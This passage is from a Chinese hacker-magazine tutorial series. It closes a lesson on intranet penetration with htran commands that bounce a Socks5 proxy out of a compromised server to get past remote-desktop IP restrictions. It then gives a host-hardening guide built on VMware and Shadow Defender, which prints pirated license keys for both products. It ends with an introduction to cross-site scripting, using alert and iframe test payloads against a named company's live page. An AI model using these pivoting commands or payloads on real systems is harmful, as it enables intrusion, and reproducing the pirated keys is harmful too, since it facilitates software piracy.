- 3. 对付限制 IP 登录：很多服务器为了安全都限制了通过远程桌面登录到这台服务器的 IP。它有一个 IP 的允许列表，不在这个列表中的 IP 是不允许连接终端端口的。以前我想到的办法就是搞到一台 IP 为允许登录的主机，后来知道 htran 可以反弹一个 Socks5 代理回来，这样不仅能解决 IP 限制问题，你的电脑还可以进入它的内网，更方便我们的渗透。

```bash
htran -s -listen 670 6700
htran -s -connect 123.123.123.123 670
```

其中 123.123.123.123 是你电脑的外网 IP 地址，命令执行后你电脑上的 htran 监听窗口就会出现如图29所示的反应了。

代理反弹回来了，使用 SocksCap32 进行连接，具体设置如图30所示，然后把远程桌面连接程序 mstsc.exe 添加到 SocksCap32 的控制台中，再次连接那台限制 IP 登录的电脑就可以正常连接了，如图31。通过代理后就相当于它自己在连接自己。通过这个代理，我们还可以连接它所处内网中的其它电脑。

关于内网渗透的方法还有很多，由于我也是刚刚学习，就只能为大家介绍这么多了。今天给大家介绍了一些简单的内网渗透方法，希望大家多多实践，实践多了也就会有自己的经验了。由于我也是菜鸟一个，讲得不对或不妥的地方还请大家指正。好了，今天的菜鸟学堂就上到这里，下课！

（文章中涉及到的 GetHashes、PwDump7、ophcrack、psexec、gsecdump、SQLTools、htran、SocksCap32，已经收录在了光盘中）

# 打造电脑的安全防线

“大家好！欢迎大家再次来到菜鸟学堂。首先问大家一个问题，你们的电脑中过病毒或木马吗？”

“中过，为此我前几天刚重装了系统。”

“我前几天一个7位的QQ号码被盗了，郁闷中。”

“有一次我的电脑中了病毒，结果把我的硬盘给格式化了，可怜我辛苦收集的工具啊。”

txcbg 听了友子们对病毒木马的控诉后又说道：“看来大家对病毒都是苦大仇深啊，今天的课我就讲一些加强电脑安全的方法，让大家打造自己电脑的安全防线好不好？”

“好！”

“txcbg 老师，你的电脑中过毒吗？”

“当然中过了，我记得最近一次中毒是在2009年8月，好在我提前做好了防范，没有造成什么危害。”

“你电脑没怎么中毒，是不是装了强有力的杀毒软件啊？”

“杀毒软件？只安装杀毒软件就能保障电脑的安全吗？……现在病毒或木马流行过所有杀软的，最次也是过几大主流杀软的。”

“txcbg 老师，那怎样做才能保障自己电脑系统的安全呢？”

“保障自己电脑系统的安全是个系统工程，有很多事情要做，今天我就结合自己为了保障我的电脑系统的安全所做的措施，来给大家介绍一些打造电脑安全防线的方法。考虑到绝大多数友子们用的都是 Windows 操作系统，今天只给大家介绍 Windows 平台下的一些加强电脑安全的方法。”

比如病毒可以通过移动存储设备感染你的电脑，如果你的电脑还上网，那就更危险了，我这可不是吓唬大家，是想提醒大家要重视电脑系统的安全。

2010年1月6日，著名开源论坛程序 Discuz! 7.2 和 Discuz! 7.1 被人爆出存在远程代码执行漏洞；2010年1月10日，PHPWind 被爆出存在多个远程文件包含漏洞；2010年1月12日，中国国内最大搜索引擎百度遭到黑客攻击，长时间无法正常访问；2010年2月2日，装机量非常大的奇虎360安全卫士被爆出本地权限提升漏洞……

举这些例子，只是想说明网络上的危险很多。作为一个安全爱好者，使用各种安全工具和黑客工具是必然的，但这些程序有可能被人动了手脚，存在后门或捆绑了病毒或木马。为了测试程序漏洞去网上找 shell，也可能中招。因此我们更要懂得加强电脑系统安全的重要性和紧迫性。有了加强电脑安全的意识，下面就是说具体怎么做了。

## 一、加强电脑系统安全的重要性和紧迫性

首先我们要明确一点，只要你的电脑开机后就是不安全的。

## 二、安装安全的操作系统

操作系统在计算机系统中占据着一个非常重要的地位，它不仅是硬件与所有其它软件之间的接口，而且任何数字电子计算机都必须在其硬件平台上加载相应的操作系统之后，才能构成一个可以协调运转的计算机系统。只有在操作系统的指挥控制下，各种计算机资源才能被分配给用户使用。也只有在操作系统的支撑下，其它系统软件如各类编译系统、程序库和运行支持环境才得以取得运行条件。没有操作系统，任何应用软件都无法运行。

我们平常进行的所有操作都是在操作系统中进行的，既然操作系统这么重要，要增加电脑系统的安全性首先要注意操作系统的安全性。如果条件允许，最好安装原版的操作系统，不要安装修改版的操作系统；有些修改版的操作系统被动了手脚，轻者浏览器主页给你劫持到一个网站，严重的甚至留了系统后门或木马病毒。如果你的电脑买的时候预装了正版操作系统，最好用预装的操作系统。如果你的电脑买的时候没带操作系统，要用盗版的系统，在选择盗版操作系统的时候也要注意，要选择口碑比较好的、安全比较有保证的……另外，在网上发布的系统时建议用手动安装版，不要用 ghost 版的。

如果你的电脑出厂时预装了 Windows 家庭基本版操作系统，建议换掉。因为 Windows 家庭基本版操作系统对有些高级功能进行了阉割，比如 Windows XP Home Edition 就不能用组策略，也不能对文件进行权限设置。当然，你能用旗舰版的操作系统最好了……不过有人发布了通过刷 BIOS 用旗舰版 Windows 7 的方法，X档案以前的文章也曾介绍过，有兴趣的可以翻看下。

## 三、VMware + Shadow Defender

有了安全的操作系统，下面该考虑用什么大的策略或方法来保护系统的安全了。我选择的是 VMware + Shadow Defender，也就是使用虚拟机加影子系统。虚拟机是在一台电脑上将硬盘和内存的一部分拿出来虚拟出若干台机器，每台机器可以运行单独的操作系统而互不干扰……

VMware 是目前虚拟机软件中最著名的一个，VMware 使你可以在一台机器上同时运行两个或更多 Windows、DOS、LINUX 系统。与“多启动”系统相比，VMware 采用了完全不同的概念。多启动系统在一个时刻只能运行一个系统，在系统切换时需要重新启动机器。VMware 是真正“同时”运行……

我选择 VMware 来加强系统的安全正是看中了它“虚拟系统崩溃之后可直接删除不影响本机系统，同样本机系统崩溃后也不影响虚拟系统，可以下次重装后再加入以前做的虚拟系统”的特点……

Shadow Defender 是一款国外的系统保护程序，它程序小巧却功能强大，还原、保护、转储、排除等功能齐全。进入影子模式后的分区上的所有更改在退出影子模式后都会被撤销，即返回到没进入影子模式时的状态。有了 Shadow Defender，我们就再也不用怕中病毒中木马中网马了……

下面我们先来安装 VMware。VMware 有很多产品，我使用的是它的桌面产品中的 VMware Workstation，目前最新版为 7.0.1……官方下载地址为“http://downloads.vmware.com/cn/details/wkst_701_win/ZGoIYmRqQHdi-ZGR3dA==”，需要注册为官方用户后才能用官方下载地址下载。今天我们不用最新版，用 VMware-workstation-6.0.4-93057 来给大家做演示，安装文件也是从官方下载的，软件的 md5sum 为 f50a05831c94c19d98f363c752fca5f9，如图1。

VMware 虽然是收费软件，但软件的注册机早就满天飞了，我连注册机也懒得用，直接在网上搜索了一个软件的注册码。在选择 VMware Workstation 的安装文件时强烈建议用官方原版的，用着放心，最好不要用汉化版、精简版、绿色免安装版的……软件虽然是英文的，但常用的功能就那么几个，硬记也记住了，根本没必要用汉化版的。

VMware Workstation 是一款应用软件，需要运行在一个操作系统中。安装 VMware Workstation 的系统叫 HOST，也叫主系统或宿主机；在虚拟机中运行的系统叫 GUEST HOST，即子系统或客户系统。我宿主机中用的操作系统是 Microsoft Windows Vista Business。双击 VMware Workstation 的安装文件 VMware-workstation-6.0.4-93057.exe 进行安装，一路 Next 就可以完成安装了……软件安装完成后会要求重新启动系统，重启后输入软件激活码。

VMware Workstation 就安装完成了。我找到的 VMware-workstation-6.0.4 的一个激活码为 8RJYX-0PD65-08M4U-4P9QQ，大家可以直接利用。双击桌面上的 VMware Workstation 快捷方式启动 VMware Workstation，软件启动后的界面如图2所示。

要使用 VMware Workstation，首先需要在 VMware Workstation 中新建一个虚拟机（Virtual Machine），然后在建立的虚拟机中安装操作系统。点“New Virtual Machine”按钮或点“File”菜单下的“New”，然后选择“Virtual Machine”来开始新建一个虚拟机，如图3。首先弹出来的是如图4所示的对话框，点“下一步”后就会出现如图5所示的选择安装模式的对话框。

默认是“Typical”，即典型安装。为了获得更多设置的机会，我选择了“Custom”，即选择自定义安装模式。点“下一步”后出现了如图6所示的选择对话框。我们保持默认的 Workstation 6，然后点“下一步”，接下来让你选择这个虚拟机中要安装操作系统的类型。我打算在虚拟机里安装一个 Windows Server 2003，就选择“Microsoft Windows”，版本（Version）就选择“Windows Server 2003 Enterprise Edition”，如图7。

选择好操作系统类型后会出来让你设置虚拟机的名字和选择虚拟机保存在哪里的对话框。为了便于识别和管理，需要给虚拟机起一个名字，然后输入到“Virtual Machine Name”下面的输入框中。我起的名字为 2k3_x。前面已经说过了，一个虚拟机其实就是保存在硬盘上的一些文件，在“Location”下面选择这些文件保存在硬盘上的位置，默认保存在系统目录下，建议单独划分一个磁盘分区来存放虚拟机文件。这里我让它保存在专门存放虚拟机文件的 M 盘，具体目录为“M:\vmware\2k3_x”，如图8。

继续点“下一步”就来到了让你选择虚拟处理器个数的地方，如果你的电脑是单核处理器就选择 One，如果你的处理器是双核或两个以上核心，就选择 Two（VMware Workstation 6.0.4 最多支持2个核心，7.0.1版的好像支持4核心的选择了）。继续点“下一步”就来到了设置虚拟机内存大小的地方，这里根据你的物理内存的大小来给虚拟机分配内存，这里我给它分配了 512MB 的内存，如图9。

点击“下一步”后来到了设置虚拟机网络的地方，虚拟机上网通过外面的宿主机系统的网络来上网的话就选择 NAT，如果要在虚拟机里直接通过 ADSL 拨号上网的话就选择桥接模式（Use bridged networking），如图10。

继续点击“下一步”后会让你选择 I/O 适配器的类型，保持默认的“SCSI Adapters”下的“LSI Logic”不变，然后点“下一步”后会出来如图11的让你选择虚拟机用哪个硬盘的界面。

这里我选择“Create a new virtual disk”，即新建一个虚拟硬盘。接下来会让你选择硬盘的类型，保持默认的“SCSI”继续点“下一步”，让你选择虚拟硬盘的大小，默认的是 8.0GB。可以设置得大一点，免得到时候不够用了麻烦。我这里设置为 16.0GB，你也不必担心会占用过多硬盘空间，如果你不选择“Allocate all disk space now”选项，这个虚拟机不会立即占用 16.0GB 的硬盘空间，而是实际用了多少空间就占用多少物理硬盘空间，刚安装完操作系统后最多占用 3GB 的物理硬盘空间，以后随着在虚拟机系统中安装、使用别的文件，占用的物理硬盘空间才会慢慢变大。“Split disk into 2 GB files”选项也不要选，它的意思是把虚拟硬盘文件分割成单个文件 2GB 大小的几个文件，如图12。

点击“下一步”后出来了如图13所示的对话框，在这里可以设置虚拟硬盘文件的名字，这里我保持默认，点“完成”按钮后会出来一个提示虚拟机创建成功的提示框，直接点“Close”按钮关闭提示框就新建好了一个如图14的虚拟机。

“建立虚拟机好麻烦啊。”台下一叉子忍不住说道。

txcbg 怕叉子们产生畏惧心理，赶紧说：“介绍起来有点麻烦，实际建立时一点儿也不麻烦，几乎全是‘下一步’，然后做几个选择就完成了，不到20秒就可以完成。虚拟机建立完成后还可以点击图14中的‘Edit virtual machine settings’来更改虚拟机的设置，比如可以增加或减小虚拟机的内存，也可以增删各种虚拟硬件，如果用不到软驱，选中‘Floppy’点下面的‘Remove’按钮就可以删除虚拟的软驱了，如图15。”

刚才我们建立的虚拟机好比一台新买的还没装操作系统的电脑。要使用虚拟机，首先要在虚拟机里安装操作系统。真实的电脑一般通过光驱安装操作系统，VMware 中的虚拟机也是通过光驱安装操作系统的。双击图14中的“CD-ROM”，就打开了虚拟光驱设置的地方。如果你有系统安装光盘，虚拟机可以直接使用你机子上的真实光驱来安装系统；如果要用物理光驱来安装系统，就选择“Use physical drive”，然后下拉列表中会列出当前可用的物理光驱。VMware 的虚拟机除了可以通过物理光驱安装系统外，还支持利用 ISO 文件来安装操作系统，这样即使你没有系统安装光盘，从网上下载一个系统的镜像文件就可以安装系统了。我这里使用 ISO 文件来安装操作系统，选择“Use ISO image”，然后通过 Browse 按钮选择你要使用的 ISO 文件。这里我选择了一个名为 Win2K3_EE_FULL_080328(Win2K3_EE_SP2_Full_080328完整版_深度).iso 的 2003 系统的 ISO 文件，如图16。

点“OK”按钮完成设置，下面就可以来安装操作系统了。点图16中的那个绿色向右的三角开机按钮，就像我们平时在真实电脑中装系统一样开始安装操作系统了，如图17。在虚拟机中点一下鼠标，把鼠标切换到虚拟机中，然后按键盘上的 1 就开始安装了。在图18的地方我把 16GB 的虚拟硬盘划分为两个分区，C盘 10GB 作为系统盘，D盘 6GB 留作它用。接下来就是等待系统安装完成了。

在虚拟机里安装操作系统也很快，只用了12分钟就安装完成了，貌似比在真实电脑中安装系统还快。安装完成后的系统如图19。大家可能会发现鼠标在虚拟机系统中移不出来了，要按 Ctrl+Alt 才能移出来，宿主机和虚拟机的系统之间也不能通过拖拽来传递文件。通过在虚拟机系统中安装 VMware Tools 就可以解决这些问题了。选中要安装 VMware Tools 的虚拟机，然后选择“VM”菜单下的“Install VMware Tools”会弹出一个对话框，点“Install”按钮后在虚拟机系统的光驱中会出现一张名为 VMware Tools 的虚拟光盘，双击光盘后就会开始安装 VMware Tools 了，如图20、图21。

安装完成后会要求你重启虚拟机里的系统，重启完成后鼠标就可以在宿主机系统和虚拟机系统之间自由切换了，还可以直接通过拖拽在宿主机系统和虚拟机系统之间相互传递文件。

我们来让虚拟机里的系统上网，因为我们在建立虚拟机的时候虚拟机的网络设置的是 NAT，不用再进行任何设置，虚拟机里的系统应该已经能上网了。用浏览器访问 http://www.baidu.com/，果然已经可以上网了，如图22。如果还不能上网的话，请把虚拟机里的本地连接设置为自动获得 IP。

接下来安装 Shadow Defender。Shadow Defender 目前的最新版本为 1.1.0.325，官方下载地址为 http://www.shadowdefender.com/download.html。在这个下载地址还能下载到“Language Files”，也就是语言文件，方便你把软件界面变成中文的。下载语言文件的时候我选择简体中文的（Simplified Chinese）。Shadow Defender 1.1.0.325 的安装文件非常小，只有 1.08MB，直接双击下载好的文件进行安装，安装完成后需要重新启动系统。重启系统后双击桌面上的 Shadow Defender 的快捷方式会出来如图23的对话框，点“Register”按钮来注册软件。

> “txcbg老师，我们有注册码吗？”

> “这个不用担心，Shadow Defender 虽然是收费软件，但它的注册码却可以在网上很容易找到，因此可以免费不受限制地使用这个软件，而且注册码各个版本的 Shadow Defender 通用，利用起来真是方便啊。输入从网上找的一个注册码 DA8EK-W6RYY-E8JNG-AUM13-F52PT 完成注册，注册完成后会自动打开如图24的软件界面。”

> “现在软件是英文的，对一些友子来说可能有一些使用上的障碍，我们来把它变成中文界面的。把从软件官方下载的语言文件 res.ini 替换 Shadow Defender 安装目录下的 res.ini，再次打开软件，发现已经是中文界面了，如图25。点‘模式设置’按钮，选择要进入影子模式的分区，然后点‘进入影子模式’按钮就可以让指定分区进入影子模式了，如图26。”

> “是不是现在就可以在虚拟机系统里随便测试木马病毒，随便上网了呢？”

> “这个……，应该说可以了，不过为了以后减少一些麻烦，”我还需要做一件事情。刚安装好的虚拟机系统我叫它虚拟机A，我并不直接使用虚拟机A，而是克隆一个和虚拟机A一样的虚拟机B，平时我们使用虚拟机B。这样即使虚拟机B出现问题，直接删除，然后再用虚拟机A克隆一个新的虚拟机B出来就行了。克隆一个虚拟机比新建一个虚拟机然后在里面安装操作系统快得多。在VMware里怎么克隆虚拟机呢？选中没开机的要克隆的虚拟机，这里我选择虚拟机2k3_x，然后选择“VM”菜单下的“Clone”子菜单，会弹出克隆功能的欢迎对话框，点“下一步”会出现从哪里克隆的选择框。因为是刚建立的虚拟机，还没做过快照，保持默认的 Clone from “The current state in the virtual machine”；如果已经有快照的话还可以选择 Clone from “An existing snapshot”，如图27。

点击“下一步”出来让你设置克隆的虚拟机的名字和虚拟机存放位置的对话框，名字我保持了默认的 Clone of 2k3_x，保存位置我选择了 M:\vmware\2k3_x_clone，点“下一步”后就开始克隆了，并会出现如图29的克隆进度对话框。不到两分钟就完成了克隆，速度相当快。


图26


图27


图28


图29

点击“下一步”就会出来让你选择克隆类型的对话框，有两种克隆模式供选择：

- “Create a linked clone”：它依赖于被克隆虚拟机（母机），如果母机出现问题，克隆出来的虚拟子机也同样会出现问题，但它有占用磁盘空间少、克隆速度快的特点。
- “Create a full clone”：完全克隆，它克隆出来的是完全独立的虚拟机，它的执行效率与被克隆虚拟机相同；但与 Linked Clone 相比，它占用空间多，克隆慢。

为了达到我们的目的，这里选择“Create a full clone”，如图28。

点击“下一步”出来让你设置克隆的虚拟机的名字和虚拟机位置。

启动新克隆的虚拟机 Clone of 2k3_x，你会发现它和虚拟机A一模一样。打开 Shadow Defender，所有分区进入影子模式，你就可以放心地上网了，不怕网页被挂马，可以放心测试各种木马病毒。在退出影子模式后，系统会回到刚要进入影子模式时的状态。

我们可以在VMware中建立多个虚拟机，比如分别建立用来测试各种程序漏洞的虚拟机、做免杀的虚拟机、跑彩虹表的虚拟机等，并且多个虚拟机可以同时运行。

既然已经安装好了 VMware+Shadow Defender，并且建立好了虚拟机，建议平常的操作都在克隆的虚拟机中进行。访问不确定安全性的网站，到网上去拿 shell，一定要在虚拟机中进行。我们访问几乎所有的网站都在虚拟机中进行。

可能偶尔有强病毒可以穿透 Shadow Defender 让虚拟机中毒，不要担心，直接在“VM”菜单下选择“Delete from disk”，删除中毒的虚拟机，然后用虚拟机A克隆一个虚拟机B出来。不到2分钟，一个干净的虚拟机又可以使用了，即使虚拟机中了病毒也不会影响到宿主机。

要运行VMware，电脑配置不能太低。如果你的电脑是只有256MB内存的老爷机，就不要安装VMware了，建议只安装Shadow Defender，它占用极少系统资源，并且不需要再装杀毒软件。由于只用Shadow Defender，安全性降低不少，系统仍有可能中毒，因此要做好系统的备份工作。好在现在主流的电脑都最少2GB内存了，同时跑2、3个虚拟机系统都不是问题。

关于Shadow Defender具体是怎样保护系统安全的，以及它的转储、排除等高级功能的利用，大家可以上网查询，也可以参看《黑客X档案》2008年第7期的“电脑安全的利器——Shadow Defender”一文。

VMware+Shadow Defender搭建起了电脑安全防线的骨架，还有一些细节要做。

一个虚拟机专门用来对USB存储设备进行操作，并在接入USB存储设备前启动虚拟机里的Shadow Defender（所有分区进入影子模式），把虚拟机弄成全屏后在虚拟机系统中点一下鼠标，这时候插入USB存储设备，虚拟机会抢先识别它，外面的宿主系统不会识别。虚拟机中识别出USB存储设备后不要急于打开USB存储设备，可先用冰刃的文件查看功能看一下USB存储设备根目录下是否有 autorun.inf 这个文件，有的话删除。如果在根目录下发现不明的可执行文件，也可以考虑删除。

有时候你想在虚拟机里使用USB存储设备，外面的宿主系统首先识别了该USB设备，可能给宿主机系统带来危险。为了避免这种情况，你可以通过组策略禁止对移动存储设备的所有权限，系统不能访问USB存储设备了，自然也就避免了因此带来的风险。我这里以Vista系统为例来说下操作步骤：首先在“运行”中输入 gpedit.msc，回车后打开组策略编辑器，依次展开“计算机配置->管理模板->系统->可移动存储访问”，双击“所有可移动存储类：拒绝所有权限”策略，设置为“已启用”，如图30，点“确定”按钮后将拒绝对任何可移动存储类的权限。

## 四、下载的安全

在使用电脑的过程中会下载各种软件，而下载什么软件、从哪里下载软件都直接关系到你电脑的安全。对于比较知名且常用的软件，比如 WinRAR、QQ、杀毒软件等，建议直接去软件的官方网站下载。其它的应用软件建议到比较知名的大型软件下载站点去下载，比如天空、华军等。如果是下载黑客工具或黑客软件，有官方网站的去官方网站下载，没有官方网站的可以去大的黑客论坛下载，而且只下载论坛管理员或论坛里比较久、感觉人品不错的老会员提供的软件。那种在黑客论坛新手发的工具，标题又特别吸引人的，千万要留一个心眼。

对于软件，建议用原版。对于软件的美化版、优化版、精简版、完美版这类修改版软件，建议不要使用。如果这些修改版软件一旦被别有用心的人放个后门什么的，后果就严重了，不怕一万，就怕万一。

## 五、USB存储设备的安全

现在的USB存储设备容量越来越大，价格越来越便宜，在给人们带来巨大方便的同时也给电脑带来了危险。现在通过USB存储设备传播病毒是病毒传播的一条重要途径。如果你安装了VMware+Shadow Defender，可以单独建立一个虚拟机专门来对USB存储设备进行操作，并在接入USB存储设备前启动虚拟机里的Shadow Defender（所有分区进入影子模式），把虚拟机弄成全屏后在虚拟机系统中点一下鼠标，这时候插入USB存储设备，虚拟机会抢先识别它，外面的宿主系统不会识别。虚拟机中识别出USB存储设备后不要急于打开USB存储设备，可先用冰刃的文件查看功能看一下USB存储设备根目录下是否有 autorun.inf 这个文件，有的话删除。如果在根目录下发现不明的可执行文件，也可以考虑删除。

## 六、安装软件的安全

计算机中不要乱装软件，尤其是宿主机中，很多事情都可以在虚拟机中完成，因此宿主机可以少装很多应用软件。宿主机中除非必须需要使用的软件不要装，可装可不装的软件坚决不要装。每个软件都可能存在漏洞，多装一个软件就多一份风险。系统本身有的功能最好就不要安装第三方软件了。如果你想试用新软件，可以在虚拟机中开 Shadow Defender 的影子模式后再试用。


图30

## 七、注意打补丁

软件难免有漏洞，发现漏洞后要及时打相应的补丁。对于Windows系统的补丁，如果你用的是正版操作系统，用系统中的“Windows Update”就可以打补丁了，如图31。如果你用的不是正版系统，不能通过系统自带的功能来升级，可以考虑使用360等软件的打补丁功能来打补丁。有些杀毒软件也集成了扫描系统和软件漏洞的功能，比如江民杀毒软件就提供了扫描系统漏洞、Office漏洞和常用软件漏洞的功能，并可以自动修复扫描出的漏洞，如图32。


图31


图32

对于应用程序的漏洞，有的出漏洞后软件会自动提示你更新，直接更新就是了；对于不提示更新的软件，可以多留意一下漏洞公告站点公布的漏洞信息，发现你正在使用的软件出现漏洞后及时去软件官方网站下载相应补丁或修补漏洞后的版本。如果还没出补丁，可以考虑暂时禁用、卸载软件等来规避风险。

做了上面的安全加固后，系统的安全性大大加强，基本建成了电脑系统的安全防线，但要明确一点：没有绝对的安全。

电脑系统仍然面临着安全风险，比如一个未公布的Windows系统远程溢出漏洞就可能攻陷你的宿主机；再比如如果VMware出现可以在虚拟机中直接攻击宿主机系统的漏洞，你的系统也会被攻陷。为了增加电脑系统的安全，要未雨绸缪，做好系统一旦被攻陷后恢复的准备工作，把可能存在的风险带来的损失尽量减少。

## 八、做好备份

如果系统一旦被攻陷，硬盘上的文件可能被删除或破坏；在用 ghost 软件备份或还原系统时，由于操作失误也可能导致硬盘上的数据丢失，因此有必要做好备份工作。要养成定期备份的好习惯。对于你来说比较重要的文件，比如辛苦收集的黑客工具，要定期备份，而且最好备份到光盘或U盘、移动硬盘等可移动存储设备上，这样别人即使控制了你的系统，备份数据也是安全的。

## 九、加密

对于存放在硬盘上的机密文件，要进行加密处理。对于保存了你的个人信息、账号密码等信息的机密文件，建议进行加密处理，这样即使别人控制了你的系统并得到了这些机密文件也不会造成信息泄露。至于选用什么加密软件，就看你的爱好了。以前我曾在《黑客X档案》上介绍过一款优秀加密软件——AxCrypt，这里再推荐一下。

有的叉子可能心里嘀咕，txcbg老师讲电脑安全怎么没提到杀毒软件呢。其实，在我们进行了上面讲到的安全措施后，杀毒软件真的有点多余，如果你非要装，在宿主机中装一个你认为不错的杀毒软件也可以。

在今天的课中，我讲了九条打造电脑安全防线要做的事情或要注意的事情，并以VMware+Shadow Defender作为主要安全措施。保护电脑系统安全要做的或要注意的事，实在太多了，每个人都有自己的一套方法，还有很多是小菜我不知道的，只给大家讲了我想到的，错误和遗漏在所难免，欢迎大家指正和补充。希望大家在听了今天的课后都能更好地打造自己电脑系统的安全防线，不做他人的肉鸡，呵呵。

（文章中涉及到的VMware、Shadow Defender，已经收录在了光盘中）


五一国际劳动节又到了，说到劳动，我想起了辛苦劳作的父母，他们几乎每天都要下地干活，前几天给小麦浇水，晚上快十点了才浇完回家。看着满脸泥水的父母，我心里特别难受，父母年纪越来越大了，干起农活来越来越吃力。我劝他们少种点地，父母不听，我知道他们都是为了我。劳动节了，对我的父母以及所有为了孩子而辛苦劳作的父母说声“你们辛苦了！”

5月1日这天一大早，txcbg就又走上了菜鸟学堂的讲台：“大家好，感谢大家牺牲自己宝贵的放假时间也来菜鸟学堂上课，首先祝各位叉子五一节日快乐！”

# 菜鸟学堂

“txcbg老师也节日快乐！”台下的叉子们异口同声地说道。就见一位小叉子走上讲台送给了txcbg一束鲜花，并说道：“你给我们上了一年半菜鸟学堂的课了，教给了我们不少东西，我代表叉子们对你表示感谢！”平生第一次收到别人送的鲜花的txcbg感动得不得了，都二十老几的人了居然当众流下了眼泪，心里嘀咕着：如果送花的是位女叉子那就更好了。

txcbg擦干了脸上的泪水，说道：“再次感谢大家，下面我们就来正式上课，我先给大家写个字，大家来看看。”说着txcbg就在黑板上写了一个大大的“跨”字。

“这不是跨栏的‘跨’吗，你难道要改教我们跨栏吗？不过跨栏好像是体育运动啊！”台下一位平时比较活跃的叉子说道。

“我不教你们跨栏，我教你们跨越马路护栏。”

“……”

“好了，刚才和大家开个玩笑，不过今天要讲的内容确实带有一个‘跨’字，它就是跨站，跨站大家都听说过吗？”

“听说过，我听过这个名词的，不过跨站到底是什么我还真不知道。”

“呵呵，今天我们就开始跨站之旅，一起来认识跨站。”

## 一、什么是跨站

跨站的全称就是跨站脚本攻击（Cross Site Script），英文缩写为XSS，这是一种危害很大的漏洞。跨站脚本攻击就是指在远程Web页面的HTML代码中插入具有恶意目的的数据，用户认为该页面是可信赖的，但是当浏览器解释该页面时，嵌入其中的恶意代码就会被解释执行。为什么要叫跨站脚本攻击呢？因为跨站脚本攻击漏洞很多时候都是通过别人的网站来达到攻击的目的，所以就被称为了跨站。其实“跨站脚本攻击”这个词应该属于用词不当，因为它不仅与脚本无关，甚至不一定是跨站点的，它就是在发现这种攻击的时候所起的一个名字，并沿用至今。

“老师，跨站脚本攻击的英文是Cross Site Script，那为什么缩写却是XSS，应该是CSS啊？”一叉子不解地问道。

“问得好，Cross Site Script 缩写本来应该是CSS，但因为CSS是层叠样式表（Cascading Style Sheets）的缩写，为了不产生混淆，于是就叫XSS了。只是一个叫法而已，以后看到别人说XSS漏洞，知道是跨站脚本攻击就行了。”

## 二、跨站漏洞产生的原因

跨站漏洞是怎么产生的呢？跨站漏洞的成因主要是用户提交的数据没有经过完整过滤HTML字符，或根本没有经过过滤就放到了数据库中，并且在一些地方又直接从数据库中取出来返回给访问的用户，就导致了特定的HTML代码得到执行，漏洞就产生了。通俗地说，跨站脚本攻击其实就是HTML的注入漏洞，用户的恶意输入没有经过严格的控制就进入了数据库，并最终显示给了来访的用户，导致可以在访问用户的浏览器里以浏览用户的身份执行HTML代码，其数据流程如下：恶意用户的HTML输入 --> Web程序 --> 进入数据库 --> Web程序 --> 用户浏览器。通过这个流程我们可以清楚地看到恶意HTML代码是如何进入用户浏览器的。

## 三、直观认识跨站

先给大家介绍什么是跨站以及产生跨站漏洞的原因，这都是一些理论的东西，一些小叉子可能感觉还有些迷糊，还不知道什么是跨站。为了能让大家对跨站有个比较直观的认识，我给大家介绍一个跨站漏洞，漏洞就出在嘉里大通网站的一个网页上（嘉里大通是一个物流公司，很多国内用户从Dell官方网站订购Dell电脑就是嘉里大通把电脑送到你手中的），这是我在08年夏天查询我的Dell订单时发现的，过去快两年了，但漏洞仍然存在。存在漏洞的网页具体地址就是“http://www.kerryeas.com/htdocs/cargotrackandtrace/express/client_enquiry_2a.html”，打开后如图1所示。


可以看到这是一个查询国内快件的页面，我们直接在“运单号”栏中输入跨站测试代码，点击“查询”按钮后会提示输入规则错误，再按提示修改后即可触发测试效果。作者进一步说明，这只是为了直观观察跨站是否存在，实际可替换为其他HTML或脚本片段进行验证。

```html
<script>alert("菜鸟学堂跨站测试！")</script>
316<script>alert("菜鸟学堂跨站测试！")</script>
316<font color="#FF0000">菜鸟学堂跨站测试！</font>
```

弹出了“菜鸟学堂跨站测试！”，说明我们插入的HTML代码被执行了，如图4。

再比如输入代码 `316<iframe src=http://www.baidu.com height=30 width=50></iframe>`，点击“查询”后成功看到了下框架（因为显示区域的限制，很小，出现了滚动条，大家请仔细看下），说明代码又被执行了，如图5，利用这个我们可以进行挂马。


曾经有段时间我也觉得跨站就等于弹出个对话框，后来稍微接触跨站的知识后才明白，利用跨站能做很多事情，理论上HTML代码和脚本代码所能实现的功能，通过跨站漏洞都可以实现。

## 四、跨站的分类

跨站也分为好几种类型。我在网上查询了一个跨站的分类，看到有人分了三类，但却没有给出分类的名字，只是以类型0、类型1、类型2的情况进行了讨论。其实还可以分为两类，就是持续性跨站漏洞和非持续性跨站漏洞。


跨站攻击发出后危害一直持续（一直到漏洞被修复或跨站代码被删除），受影响的不只是直接发动跨站攻击者，这类跨站漏洞叫持续性跨站漏洞。比如A发现了跨站漏洞，把精心构造的链接或代码发送给了B，B使用浏览器访问了A发给他的链接或代码，则B为跨站攻击直接发动者。再比如一个人发现了一个博客系统的跨站漏洞，他发了一篇利用跨站漏洞的文章，如果是只要浏览这篇文章就会触发跨站攻击代码，那么这种跨站漏洞就是持续性跨站漏洞。试想如果他发的那篇文章被作为热门文章推荐了，利用这个博客系统的人又非常多，假设是百度空间吧，那么受到这个跨站漏洞影响的人就会非常多，危害也非常大。

跨站攻击发出后只影响跨站攻击直接发动者的跨站漏洞就叫做非持续性跨站漏洞。比如上面提到的嘉里大通网站的那个跨站漏洞，就只有我提交跨站代码后才会产生跨站效果，并且只影响我自己浏览器，不会对别的访问那个网页的人产生影响。这种漏洞大家可以自己体验一下，实际利用价值并不大或者几乎没有，产生的危害也仅限于跨站攻击直接发动者。你提交的跨站代码如果能让别人看到，很可能发生持续性跨站漏洞，比如你在留言本中的留言、你论坛用户的签名等；你提交的跨站代码只能让自己看到，则容易产生非持续性跨站漏洞，比如跨站漏洞出现在搜索的地方，你搜索某个东西，搜索的是什么一般只有自己知道，别人是不知道的。

## 五、一些跨站代码

前面已经说过了，跨站代码不只有 `<script>alert("XSS test")</script>`。仅仅是弹出一个对话框，就有很多种代码可以实现。为了演示跨站代码的效果，我编写了一个非常简单的HTML网页，代码如下：

```html
<head>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312"/>
<title>菜鸟学堂跨站演示</title>
</head>

<body>
</body>
</html>
```

把这段代码保存为1.html，放到我虚拟机系统中使用IIS建立的网站根目录下，访问地址为“http://127.0.0.1/1.html”，直接访问后显示如图6所示。因为 `<body>` 和 `</body>` 之间没有写代码，所以页面是空白的。我们在 `<body>` 和 `</body>` 之间加上跨站代码，看能不能弹出个对话框。首先加入代码 `<script>alert("XSS test")</script>`，结果弹出了对话框，如图7。


